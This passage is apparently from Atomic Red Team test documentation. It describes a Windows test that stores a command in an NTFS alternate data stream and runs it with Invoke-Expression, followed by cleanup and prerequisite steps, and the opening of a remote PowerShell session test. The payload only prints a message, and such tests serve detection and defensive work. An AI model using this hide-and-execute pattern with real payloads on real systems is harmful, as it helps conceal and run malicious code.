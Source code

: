


<br/>
<br/>

## Atomic Test #13 - NTFS Alternate Data Stream Access
Creates a file with an alternate data stream and simulates executing that hidden code/file. Upon execution, "Stream Data Executed" will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 8e5c5532-1181-4c1d-bb79-b3a9f5dbd680





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ads_file | File created to store Alternate Stream Data | string | $env:TEMP&#92;NTFS_ADS.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
Add-Content -Path #{ads_file} -Value 'Write-Host "Stream Data Executed"' -Stream 'streamCommand'
$streamcommand = Get-Content -Path #{ads_file} -Stream 'streamcommand'
Invoke-Expression $streamcommand
```

#### Cleanup Commands:
```powershell
Remove-Item #{ads_file} -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Homedrive must be an NTFS drive
##### Check Prereq Commands:
```powershell
if((Get-Volume -DriveLetter $env:HOMEDRIVE[0]).FileSystem -contains "NTFS") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Prereq's for this test cannot be met automatically
```




<br/>
<br/>

## Atomic Test #14 - PowerShell Session Creation and Use
Connect to a remote powershell session and interact with the host.
Upon execution, network test info and 'T1086 PowerShell Session Creation and Use' will be displayed.
